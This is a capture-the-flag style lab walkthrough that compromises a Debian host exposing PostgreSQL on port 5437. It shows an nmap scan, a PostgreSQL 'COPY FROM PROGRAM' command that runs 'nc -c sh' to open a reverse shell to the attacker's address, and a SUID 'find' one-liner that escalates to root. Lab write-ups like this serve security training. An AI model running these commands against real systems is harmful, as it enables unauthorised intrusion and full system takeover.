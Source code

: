 First we start with an nmap scan 

`nmap -sC -sV -T4 -oN nmap.txt <IP> -p-` 

```
# Nmap 7.93 scan initiated Mon Dec 26 08:46:39 2022 as: nmap -sC -sV -T4 -oN fullmap.txt -Pn -p- -v 192.168.108.47
Nmap scan report for 192.168.108.47
Host is up (0.19s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10621ff522de29d42496a766c364b710 (RSA)
|_  256 907ca34473b4b44ce39c71d187baca7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Issuer: commonName=debian
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-27T15:41:47
| Not valid after:  2030-04-25T15:41:47
| MD5:   b0866d304913684e16c18348fc76fe43
|_SHA-1: cb3051090fc114ab0fb98e5558744bb5ba5766af
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 26 08:56:46 2022 -- 1 IP address (1 host up) scanned in 606.52 seconds
```

Got ftp,ssh,http& postgresql service. checked port 80 was nothing so i checked port 5437 which is running postgresql. Logged in as user postgres and tried to spawn a shell from it.

```
psql -h 192.168.145.47 -U postgres -p 5437
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'nc -c sh 192.168.49.145 80';
```

![image](https://user-images.githubusercontent.com/87468669/209588689-22422425-5e1a-45bb-aea6-47ba6f4de438.png)

Boom!!! Got in... Stabilize the shell

![image](https://user-images.githubusercontent.com/87468669/209588761-abd9461f-e6f4-4a9b-93dd-a3c28e181405.png)

Checked for suid bin files, find is vulnerable so hit gtfobin `./find . -exec /bin/sh -p \; -quit`

![image](https://user-images.githubusercontent.com/87468669/209588914-2574d3b0-5ec8-4094-bf7a-02f87a4f3e5f.png)

Rooted!!!🤠🤠

![image](https://user-images.githubusercontent.com/87468669/209588943-90f2a166-0314-47ec-91f5-0819c2672e53.png)




